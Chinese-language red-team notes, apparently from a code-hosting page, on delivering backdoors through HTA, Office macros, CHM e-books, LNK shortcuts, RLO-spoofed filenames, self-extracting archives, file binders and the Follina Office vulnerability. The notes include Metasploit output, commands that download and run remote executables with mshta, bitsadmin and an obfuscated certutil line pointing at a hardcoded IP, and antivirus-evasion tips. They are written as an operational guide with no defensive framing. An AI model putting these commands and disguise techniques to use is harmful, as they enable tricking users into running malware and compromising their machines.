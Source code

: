 hta上线
Office宏对象
CHM电子书
LNK快捷方式
上线免杀方案
exe伪装成图片
文件名-RLO伪装-后缀
压缩文件-自解压-运行
捆绑文件-打包加载-运行
Office 套件-CVE 漏洞-上线MSF&CS

^
## **hta上线**
>`mshta.exe` 是 Windows 操作系统的一部分，通常存在于所有现代版本的 Windows 中，包括 Windows 10、Windows 11 以及 Windows Server 系统。`mshta` 是一个命令行实用工具，用于执行 HTML 应用程序（HTA）。

msf
```
msf6 exploit(windows/misc/hta_server) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://0.0.0.0:8080/8HGLrG47OUEJ.hta
[*] Local IP: http://vps:8080/8HGLrG47OUEJ.hta
[*] Server started.
```
执行
```
mshta.exe http://vps:8080/8HGLrG47OUEJ.hta
```


## **Office宏对象**
CS生成，需要点击同意加载宏。
```
Office运行后进程
rundll32.exe   24292   系统文件C:\Windows\SysWOW64\rundll32.exe   TCP  源127.0.0.1:21467  目的127.0.0.1:10809
这里是开了全局代理没有显示外链地址，正常就是远控监听地址
```
有效载荷-Office宏-复制宏代码vb代码

1.word左边选项-设置-自定义功能-勾选开发工具
此时右上角就可以设置宏，可能在视图里
进入点击宏位置在本文件，新建
粘贴宏代码，ctrl+s此时选择否，另存为带有宏的.docm文件(.docm) 或 Word97-2003文档（.doc，老版本word也能用）

此时点开.docm/.doc文件，进入后点击启用宏。即可上线。
也需要做免杀，不然宏代码被删除。如果免杀后且无进程，这种免杀上线不容易被检测。

2.同理excel选择保存：Excel启用宏的工作薄（.xlsm）或 Excel97-2003工作薄（.xls）。

3.同理PPT选择保存：启用宏的PowerPoint演示文稿（.pptm）或 PowerPoint97-2003演示文稿（.ppt）。

4.word,excel.ppt的模板文件后缀，也可以加入宏。


5.office的老板有一个CVE-2017-11882，msf可以生成word打开直接上线msf。

免杀方案：
混淆宏代码，分离远程http加载。
自动化项目：http://github.com/outflanknl/Evi/Clippy  ，将宏代码vba一键注入正常doc，过DF难。
给doc加保护密码。


^
## **CHM电子书文件**
CHM：Compiled HTML Help
利用htm的js调用powershell.exe去连接CS服务端web投递，用EasyCHM工具 转成CHM文件，点击运行上线。
或利用js调用cmd.exe/c bitsadmin/transfer 64c http://47.94.236.117:83/a %APPDATA%\604c.exe&%APPDATA%\604c.exe&del %APPDATA%\604c.exe
用bitsadmin下载604c.exe执行，再删除604c.exe

核心是js调用程序cmd来下载exe，需要对命令做混淆。
c”e””r"”t”"u”"t“i“"l”-"u""”"c"a"c”h"e" -split -f http://47.94.236.117/5.exe  & 5.exe
^
## **LNK快捷方式调用白名单**
调用的白名单执行，免杀。
利用系统文件执行：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
快捷方式伪装：
-创建快捷方式
-生成HTA并上传
-属性更改目标执行
-属性更改图标伪装（最好用系统图标，每台机子都有）

CS中攻击载荷生成HTA，选择Executable或PowerShell，生成.hta文件。
用CS开一文件托管或直接将.hta上传服务器获取下载外链，如CS上传文件外链http://xx.xx.xx.xx:xx/x.ext。
快捷方式属性目标改成：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
起始目录改成：C:\windows\System32\
点击快捷方式即可上线，此时有可能报毒.hta文件，但.hta文件已经被mshta.exe加入到内存，已经上线。


## **免杀方案**
小迪153

## **exe伪装成图片**
<https://blog.csdn.net/guanjian_ci/article/details/138808440?spm=1001.2014.3001.5502>
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改成一张图片

^
## **文件名-RLO伪装-后缀**
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改

^
## **压缩文件-自解压-运行**
将几个文件使用WinRAR 设置SFX参数压缩成exe，让解压后自动解压到位置并运行。
再使用RLO重命名变成zip后缀，如softexe.zip。

>管家不杀，火绒不杀

^
## **捆绑文件-打包加载-运行**
文件捆绑器.exe
将正常程序和后门程序捆绑一起。

有的捆绑器甚至可以将pdf和后门程序捆绑，打开pdf就上线。

>管家可能杀，选择冷门的捆绑工具MatryoshkaDollTool-master

^
## **Office 套件-CVE 漏洞-上线MSF&CS**
Microsoft MSDT CVE-2022-30190 代码执行

https://github.com/JohnHammond/msdt-follina
该漏洞首次发现在 2022 年 5 月 27 日，由白俄罗斯的一个 IP 地址上传。恶意文档从
Word 远程模板功能从远程 Web 服务器检索 HTML 文件，
通过 ms-msdt MSProtocol URI 方法来执行恶意 PowerShell 代码。感染过程利用
程序 msdt.exe，该程序用于运行各种疑难解答程序包。
此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可
以使用 ms-msdt URI 执行任意 PowerShell 代码。

目前已知影响的版本为：
office 2021 Lts
office 2019
office 2016
Office 2013
Office ProPlus
Office 365

<https://blog.csdn.net/weixin_53884648/article/details/127791345>
部署服务html
生成恶意docx。
打开恶意docx，请求html，直接命令执行。

修改exp里面下载后门exe的地址生成docx即可。
python follina.py -m binary -b \windows\system32\calc.exe -t docx